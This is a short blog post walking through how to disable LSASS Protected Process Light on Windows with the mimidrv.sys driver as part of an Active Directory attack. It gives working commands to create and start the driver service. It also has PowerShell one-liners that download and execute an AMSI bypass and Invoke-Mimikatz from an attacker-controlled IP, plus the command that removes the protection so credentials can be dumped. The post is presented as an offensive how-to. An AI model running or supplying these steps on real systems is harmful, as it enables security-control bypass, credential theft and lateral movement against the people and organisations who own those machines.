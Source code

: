```yaml
---
layout: post
title: Disabling LSASS protection with mimidrv.sys
---
```

![](/images/2021-1-1-mimidrv/0.png)


During your Active directory attack, once you have elevated your privilege to Admin, the first thing we can do to laterally move is to dump hashes from LSASS.

**what if the LSASS is protcted.?**

If LSASS protection is enabled we cannot tamper with the process.

if LSASS is marked as Protected Process Light (PPL) then protection is turned on !

***PS: You can use a powershell script such as HostRecon.ps1 to find out if protection is enabled.***

In this post we will take a look at how we can run mimikatz to do this by the driver MIMIKATZ uses to accomplish this !

```
mimidrv.sys
```
Reference: [Mimidrv.sys](https://github.com/gentilkiwi/mimikatz/releases) [Mimikatz](https://github.com/EmpireProject/Empire/blob/7a39a55f127b1aeb951b3d9d80c6dc64500cacb5/data/module_source/credentials/Invoke-Mimikatz.ps1)

First thing to do is to upload the driver file into disk, fortunately, defender does not flag this as malicious !


Now we will create as service and load the driver

```
sc create mimidrv binPath= C:\tmp\mimidrv.sys type= kernel start= demand
```

Now we will start the service

```

sc start mimidrv
```

With the driver running, we can instruct it to turn off the LSASS PPL protection.

In order to do that, we will first disable AMSI and load mimikatz:

```
Step 1: Start powershell
Step 2: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/AMSI.txt') | IEX
Step 3: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/mimikatz.txt') | IEX
Step 4: Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`"" 


```

![](/images/2021-1-1-mimidrv/2.png)

With the driver running combined with the above command, we have successfully disabled the protection !!

Now we can use any method to dump the lSASS process and download it offline and use tools such as "MIMIKATZ" or "PYPYKATZ" to extract the credentials
